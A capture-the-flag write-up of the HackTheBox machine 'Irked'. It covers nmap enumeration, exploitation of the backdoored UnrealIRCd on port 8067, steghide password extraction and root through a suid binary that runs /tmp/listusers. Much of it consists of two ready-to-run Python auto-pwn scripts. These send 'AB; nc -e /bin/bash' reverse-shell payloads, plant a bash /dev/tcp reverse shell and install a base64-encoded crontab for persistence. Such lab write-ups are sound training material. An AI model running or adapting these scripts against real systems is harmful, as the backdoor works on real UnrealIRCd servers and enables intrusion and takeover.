

This box was an Easy box from HackTheBox. It's OS is Linux. The entry point is with a backdoored version os UnrealIRCD, which allow us to execute commands on the server. After that we get an password to extract a ssh pass from a steghide file. Then we found a suid binary running as root. We abuse it and get a root shell.

The exploit for this box is on the body of the post. Hope you enjoy!

# Diagram



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.117
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


We do a further enumaration with the `-p-` option, which will scan all ports

```sh
nmap -sV -sC -Pn -p- 10.10.10.117
```

And we found some open port for IRC service.

## Port 80

We try to open it on the browser


Nothing useful, just a message of irc sever running on this box

## Port 8067

Looking for the version of the UnrealIRC which is running on this server, we try to search for exploits for UnrealIRCD

```sh
searchsploit unrealircd
```


And we found [this](https://metalkey.github.io/unrealircd-3281-backdoor-command-execution.html) and [this](https://null-byte.wonderhowto.com/how-to/hack-unrealircd-using-python-socket-programming-0198050/) blogs which we can try to explore the server

So, let's try that

The vulnerability is a backdoor os the version which we can trigger with a AB; sending to the server

Let's try to ping us


Now let's try to get a reverse shell


Now let's easily automate it.

# Auto Reverse Shell

We'll use our skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is


auto_reverse_irked.py

```py
#!/usr/bin/python3
# Auto Pwn - Irked - HackTheBox
# Author: 0x4rt3mis

import argparse
import requests
import sys
from pwn import *

'''Here come the Functions'''
# Set the Handler
def IrcHandler(lport):
	shell = listen(lport).wait_for_connection()
	shell.interactive()

# Trigger the vulnerability
def TriggerReverse(rhost,lport,lhost):
	conn = remote(rhost,8067)
	conn.recvuntil(b"Couldn't resolve your hostname")
	conn.send(b'AB; nc -e /bin/bash %s %s\r\n' %(lhost.encode(),lport.encode()))
	conn.close()
	# Receive the connection
	IrcHandler(lport)
	
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local Port', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.localport
    
    '''Here we call the functions'''
    # Trigger it
    TriggerReverse(rhost,lport,lhost)
    
if __name__ == '__main__':
    main()
```

# ircd --> djmardov

Let's begin our privilege escalation

On the Documents folder from the djmardov user we found a hidden file called .backup

```
UPupDOWNdownLRlrBAbaSSss
```


This part is really ctf part. We get the image on the port 80 and extract the the passwrod of the user in it

```sh
wget http://10.10.10.117/irked.jpg
steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss
cat pass.txt
Kab6h+m+bbp2J:HG
```


Now, just ssh in


Now, let's get root

# Djmardov --> Root

For the root part we run [linpeas](https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh) on the box


And we found an interesting suid file


```
/usr/bin/viewuser
```

We get it on our kali box, to better analyse it


With `ltrace` we see that it runs a bash file, **/tmp/listusers**

```sh
ltrace ./viewuser
```


And we test it


Ok, now we can easily get root on this box


# Auto Pwn Root

Now, let's get everything automated

Here it is


auto_reverse_irked.py

```py
#!/usr/bin/python3
# Auto Pwn Root - Irked - HackTheBox
# Author: 0x4rt3mis

import argparse
from pwn import *
from threading import Thread
import os
import subprocess
from subprocess import check_output

'''Here come the Functions'''
# Set the handler to get the pwd steg
def HandlerIRCDUser(lport,rhost):
    shell = listen(lport).wait_for_connection()
    shell.send(b'cat /home/djmardov/Documents/.backup \n')
    global pwd_steg
    pwd_steg = shell.recv().decode().strip().split("\n")[-1]
    print("[+] The pwd for the jpg file is: %s [+]" %pwd_steg)
    # Download the image and extract the ssh pass
    GetSSHPass(rhost,pwd_steg)

# Trigger the First Reverse (ircd user)
def TriggerReverse(rhost,lport,lhost):
    content = 'AB; nc -e /bin/bash %s %s' %(lhost,lport)
    r = remote(rhost, 8067)
    r.send(b'%s' %content.encode())
    
# Function to get the ssh pas
def GetSSHPass(rhost,pwd_steg):
    print("[+] Let's get the ssh pass !! [+]")
    url = 'http://%s/irked.jpg' %rhost
    os.system("wget -q %s" %url)
    os.system("steghide extract -q -sf irked.jpg -p %s >/dev/null" %pwd_steg)
    global ssh_pass
    ssh_pass = check_output(["cat", "pass.txt"]).decode('utf-8').strip()
    print("[+] The SSH Password for the user djmardov is: %s [+] !!!" %ssh_pass)
    os.system("rm pass.txt")
    os.system("rm irked.jpg")
    
def LoginSSHandRoot(rhost,ssh_pass,lhost,lport):
    print("[+] Now, let's ssh in !!!! [+]")
    lport = int(lport) + 1
    # Set up the handler for root in a new thread
    thr = Thread(target=RootHandler,args=(int(lport),))
    thr.start()
    # Send the command
    command = 'sshpass -p "%s" ssh djmardov@%s "/bin/echo -e \'#!/bin/bash\n\nsleep 5\n\nbash -i >& /dev/tcp/%s/%s 0>&1\' > /tmp/listusers; chmod +x /tmp/listusers; /bin/echo -e \'#!/bin/bash\n\nviewuser\' > /tmp/exec.sh; chmod +x /tmp/exec.sh; /bin/echo "KiAqICogKiAqIC9iaW4vYmFzaCAvdG1wL2V4ZWMuc2gK" | /usr/bin/base64 -d > /tmp/repeater; crontab /tmp/repeater; exit"' %(ssh_pass,rhost,lhost,lport)
    os.system(command)
    
# Handler root which will be opened in thread
def RootHandler(lport):
    root = listen(lport).wait_for_connection()
    root.interactive()

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local Port', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    args = parser.parse_args()

    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # First Handler to receivei the ircd user connection and get the pwd from backup file
    thr = Thread(target=HandlerIRCDUser,args=(int(lport),rhost,))
    thr.start()
    # Trigger the frist reverse
    TriggerReverse(rhost,lport,lhost)
    # Wait the thread finish before procced
    thr.join()
    # Login on the ssh with the djmardov user
    LoginSSHandRoot(rhost,ssh_pass,lhost,lport)
    
if __name__ == '__main__':
    main()
```